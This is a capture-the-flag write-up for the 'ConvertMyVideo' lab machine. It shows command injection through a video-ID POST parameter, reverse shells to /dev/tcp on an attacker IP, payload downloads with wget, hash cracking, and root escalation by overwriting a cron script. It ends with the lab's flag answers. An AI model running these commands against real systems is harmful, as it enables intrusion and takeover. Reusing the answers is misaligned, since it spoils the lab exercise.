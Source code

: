 # ConvertMyVideo - Medium

```shell
nmap -T4 -p- -A -v 10.10.175.101

feroxbuster -u http://10.10.175.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#use Burp Suite and modify the POST request

#create and host reverse-shell script for downloading via yt_url command
echo "bash -i >& /dev/tcp/10.14.31.212/4444 0>&1" > shell.sh

python3 -m http.server

#setup listener before executing commands
nc -nvlp 4444
#we get shell after RCE

python -c 'import pty; pty.spawn("/bin/bash")'

ls -la

ls -la admin

cat admin/flag.txt

cat admin/.htpasswd

#crack password hash
hashcat -a 0 hash.txt /usr/share/wordlists/kaonashi.txt

#we can use linpeas for enumeration

#in reverse-shell
cd /tmp

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ps aux
#lists cron process running

cat /etc/crontab
#but no cronjobs

#inspecting processes running further
#we can use pspy tool
wget http://10.14.31.212:8000/pspy64

chmod +x pspy64

./pspy64 --help

./pspy64
#runs the tool
#we get a command running every minute
#as cronjob

#we can attempt a cron file overwrite
#get reverse-shell back first
cd tmp

echo "sh -i >& /dev/tcp/10.14.31.212/6666 0>&1" > clean.sh

#on attacker machine
nc -nvlp 6666
#we get shell as root here
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29
  * 48137 - unknown

* The webpage on port 80 contains an input to accept 'video ID', which will then convert our video.

* We can check how the website works, and in background we can enumerate the web directories as well.

* We can try using any YouTube video ID as input, but we always get the error message on clicking 'Convert!'.

* We can also take a look at the script used in /js/main.js

* Now, intercepting the request using Burp Suite, we can see that the 'yt_url' parameter includes URL-encoded YouTube link concatenated with the video ID (user input); this is a POST request.

* We can forward the POST request to Repeater and tweak it.

* When a random video ID is entered, like 'id' or 'ls', the error message mentions ```youtube-dl```

* However, if we enclose our input in backticks, such that the parameter yt_url=\`id\`, this shows the result of the command executed.

* Thus, by enclosing a command in our backticks and using that as the value of 'yt_url', we can execute commands remotely.

* Using the command 'ls' (enclosed in backticks) as an input for 'yt_url' and forwarding the POST request, we get the secret folder 'admin'.

* Now, commands with spaces do not work, so we can use the ```${IFS}``` separator instead of spaces to make the command work.

* Now, the command does not get executed if it contains symbols such as '+' or '-', so we can try to host a reverse-shell script, download it on victim machine, and get a reverse-shell on our listener.

* We will be executing the following commands using yt_url RCE (commands enclosed in backticks):

  ```shell
  which${IFS}wget

  wget${IFS}http://10.14.31.212:8000/shell.sh

  chmod${IFS}777${IFS}shell.sh

  bash${IFS}shell.sh
  ```

* This gives us a reverse-shell on our listener as ```www-data```; we can get user flag from the /admin folder.

* From the /admin folder, we also get .htpasswd file, which contains the username and hash for login.

* We can attempt to crack the hash using ```hashcat```, we get the password 'jessie'.

* Now, we can check for enumeration using linpeas.sh; it does not give us a lot of clues.

* Now, checking the processes running (captured by linpeas), we can see that it is running 'cron', but we do not have any cronjobs listed.

* To monitor the processes running as root without root permissions, we can use the ```pspy``` tool, by transferring it from attacker to victim machine.

* We can run the ```pspy``` tool with the help flag and check what we can do to inspect processes and cronjobs.

* Running the tool, we get a list of processes running, and we can see that the following command is executed as a cronjob every minute:

  ```/bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh```

* So, we can attempt to overwrite ```clean.sh``` and escalate our privileges; but we have to get our reverse shell back first.

* Using Ctrl+C, we stop the process, and run the Burp Suite RCE again to get our reverse-shell back on listener.

* Now, we can edit ```clean.sh``` and add our reverse-shell one-liner.

* On our new listener, we get reverse-shell within a minute as root, and we can read the root flag.

```markdown
1. What is the name of the secret folder? - admin

2. What is the user to access the secret folder? - itsmeadmin

3. What is the user flag? - flag{0d8486a0c0c42503bb60ac77f4046ed7}

4. What is the root flag? - flag{d9b368018e912b541a4eb68399c5e94a}
```
